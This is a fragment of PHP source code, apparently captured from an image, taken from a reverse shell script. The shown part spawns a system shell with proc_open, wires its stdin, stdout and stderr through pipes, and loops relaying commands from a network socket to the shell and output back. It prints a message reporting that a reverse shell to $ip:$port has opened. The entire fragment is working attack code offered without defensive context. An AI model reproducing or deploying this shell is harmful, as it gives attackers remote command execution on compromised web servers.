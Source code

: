 ```php
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }
```